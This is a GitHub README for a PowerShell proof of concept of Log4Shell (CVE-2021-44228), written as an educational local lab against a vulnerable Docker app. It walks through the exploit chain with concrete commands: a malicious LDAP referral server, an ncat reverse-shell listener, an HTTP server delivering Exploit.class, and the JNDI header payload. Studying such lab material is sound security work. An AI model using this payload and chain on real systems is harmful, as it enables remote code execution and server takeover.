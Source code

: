 # Log4PowerShell (CVE-2021-44228) Proof of Concept

A Proof-Of-Concept for the CVE-2021-44228 vulnerability written in PowerShell.

This PowerShell script starts multiple processes (netcat listener, malicious LDAP and HTTP server, and a vulnerable web app hosted from a Docker image).
For educational purposes, this script runs through the entire exploit chain, dynamically creating the Java exploit class and ultimately producing a reverse shell on the web server.
The poisoned header sent to the vulnerable web application also triggers the information disclosure aspect of the vulnerability. The variable (Java version) can be observed in the LDAP server logs.

## LOG4SHELL THREAT BRIEF

https://medium.com/@alex.fronteddu/log4shell-threat-brief-dd771e831ff9

![log4jattack](https://user-images.githubusercontent.com/6628565/147063652-47c39470-1f53-49c5-806a-0f1ffa1abb7e.png)

## Proof of Concept

The script Log4jPoC.ps1 automates the exploit locally on a Windows machine.

### Demo

https://user-images.githubusercontent.com/6628565/147061440-9e3dd81f-cbef-48a5-af93-fd36203a45e4.mp4

## Requirements

The requirement for Maven may be removed in the future if the pre-compiled LDAP server is included in the project.
For transparency I cloned the repo and built it from source.

- Docker for Desktop
- Java 8
- Maven
- Python3
- Internet connectivity (docker image pull, git clone)

## Usage

`.\Log4ShellPoC.ps1`

If all the dependencies are met, this should be it. The script will start spinning up console windows with everything you need to carry out the attack. Keep your eye on the ncat.exe to see the reverse shell connect.

## About this script

### Dependency check

The script will attempt to check the dependencies.
If all dependencies are met it will start building the exploit payload (Java reverse shell).
Once the payload is created we will launch the Docker container:

`ghcr.io/christophetd/log4shell-vulnerable-app`

This project can be found here: https://github.com/christophetd/log4shell-vulnerable-app

Thanks!

### LDAP Server

Once the server is up we have to move onto the LDAP server.
I am using marshalsec's object deserialization vulnerability project which can be found here:

https://github.com/mbechler/marshalsec

Thank you!

We really only need the LDAPRefServer.java file but ive included the entire project in this iteration.
The only modification needed is the listening port:

`(Get-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java).Replace('int port = 1389;' , "int port = $ldapPort;") | Set-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java -ErrorAction Stop`

A simple find and replace works.

Lets build the project with Maven 

`mvn clean package -DskipTests`

Next we run project and run it with some arguments:

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://$lhost:$httpFilePort/exploit/#Exploit`

The last bit configures the callback URI that will be passed to the vulnerable server when it contacts this server using the JDNI API. The LDAPRefServer.java has some string manipulation that will append `.class` to the end of Exploit.

In the end the resulting URI will look something like this:
`http://{IP}}:{PORT}}/exploit/Exploit.class`

### Netcat Listener

Once we have the malicious LDAP server up and running we move on to the netcat listener.
This is simply: `.\tools\ncat.exe -lvn {PORT}}`

Netcat will allow us to receive the TCP connection from the vulnerable server and interact with it.

### HTTP Server

Next, we need HTTP server to server up the payload we created earlier.

`python -m http.server $httpFilePort`

When the vulnerable servers follows the URI provided by the LDAP server it will download Exploit.class and execute it.
This should establish a connection with the netcat listener and give us access to the server as the user who is running the web app. In this case root.. Always run your applications as a user with the lowest permissions possible.

### Web Request

Now we have to acutally send a request to the vulnerable web server to kick everything off. In this exapmple it will be a GET request with an 'X=Api-Version' header containg the following string `${jndi:ldap://{IP}}:{PORT}}/${java:version}}`
For this example the header is doing two things.
Firstly, `${jndi:ldap://{IP}}:{PORT}}` tells the Log4j service to connect to a LDAP server.
Secondly, `/${java:version}` will cause the environment variable containing the Java version to be included in the request to the LDAP server. This can be useful for troubleshooting an payload that is not working. If the payload is compiled with a version of Java higher than what is installed on the server it will not work.

## Conclusion

At this point everything should have been spun up and you should see a shell in the netcat window.
Go ahead and type `whoami` to see the effective username of the current user. In this case root!
Notice the log messages displayed in the docker container. You should see messages indicating a connection to a remote server, the netcat listener.

Hopefully this helps clarify how this vulnerability is exploited.


## Attribution

### Christophetd - log4shell-vulnerable-app Docker Image

https://github.com/christophetd/log4shell-vulnerable-app

### Marshalsec object deserialization vulnerability project

https://github.com/mbechler/marshalsec

### Log4Shell Image

Lunasec, CC BY-SA 4.0 <https://creativecommons.org/licenses/by-sa/4.0>, via Wikimedia Commons

